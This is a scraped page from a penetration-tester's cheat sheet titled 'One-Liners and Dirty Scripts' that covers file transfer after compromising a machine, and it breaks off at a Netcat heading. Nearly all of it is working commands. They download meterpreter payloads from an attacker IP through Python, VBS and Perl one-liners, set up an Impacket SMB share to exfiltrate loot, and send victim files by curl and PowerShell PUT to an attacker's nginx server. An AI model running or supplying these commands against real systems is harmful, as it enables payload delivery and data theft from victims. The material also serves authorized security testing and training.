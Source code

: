 
##
https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts
##

One-Liners and Dirty Scripts
They don't have to be elegant, they just have to get the job done.
If I use it and it's not here, it's probably over here: ​
FILE TRANSFERS
Python HTTP File Download
If you have remote command execution on a box with python - something like this should do the trick:
python -c "import urllib; f = urllib.URLopener(); f.retrieve('http://<attacker ip>/meterpreter', '/tmp/meterpreter');"
or if it is a Windows box, it's not much different:
C:\Python2.7\python.exe -c "import urllib; f = urllib.URLopener(); f.retrieve('http://<attacker ip>/rs_powershell.exe', '/temp/rs_powershell.exe');"
VBS HTTP File Download
I got stuck with a borked up reverse shell on a Windows system with no file transfer methods and no modern scripting options. I scraped together the following one-liner to dump into my shell to get my payload over by writing a VBS script with echo statements to issue the download:
echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"
(originally sourced from here: )
Impacket's smbserver.py
As always, the  shines. Use smbserver.py to open an SMB server on your host for file exfiltration:
./smbserver.py burmat_exfil ./loot -username burmat -password burmat
​
## from the target:
PS C:\> net use Q: \\10.1.1.123\burmat_exfil /user:burmat burmat
PS C:\> mv .\bh.zip Q:\bh.zip
PS C:\> net use Q: /delete
PERL HTTP File Download
perl -e 'use File::Fetch; my $ff=File::Fetch->new(uri => "http://10.10.10.11/exploit.sh"); my $file = $ff->fetch() or die $ff->error;'
NGINX + PUT
​ (thanks @ippsec), you can start a nginx server that can accept PUT requests for file transfer via HTTP:
root@kali:~ ❯ cat /etc/nginx/sites-enabled/file_upload
server {
    listen 8001 default_server;
    server_name burmat.co;
    location / {
        root /var/www/upload/;
        dav_methods PUT;
    }
}
​
root@kali:~ ❯ service nginx start
Issue a PUT request from a remote system to upload files to /var/www/upload on your system:
## CURL:
user@victim:~ ❯ curl -X PUT http://192.168.1.87:8001/l00t.txt -F "data=@/home/user/l00t.txt"
​
## POWERSHELL
PS C:\Users\victim> Invoke-RestMethod -Method PUT -Uri "http://10.10.14.12:8001/l00t.txt" -Body $(Get-Content l00t.txt)
Netcat File Transfer